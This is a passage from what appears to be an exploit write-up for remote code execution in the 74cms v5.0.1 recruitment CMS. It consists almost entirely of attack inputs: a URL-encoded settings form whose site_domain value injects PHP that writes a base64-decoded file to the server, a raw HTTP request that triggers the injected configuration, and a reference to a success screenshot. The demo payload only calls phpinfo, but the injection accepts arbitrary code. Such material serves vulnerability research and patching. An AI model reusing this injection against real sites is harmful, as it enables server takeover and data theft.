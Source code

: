     site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain='%2C+file_put_contents('403.php'%2Cbase64_decode('PD9waHAgcGhwaW5mbygpOz8%2B'))%2C'&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=
    GET /74cms/Application/Common/Conf/url.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

成功截图

![](resource/74cmsv5.0.1远程执行代码/media/rId27.png)
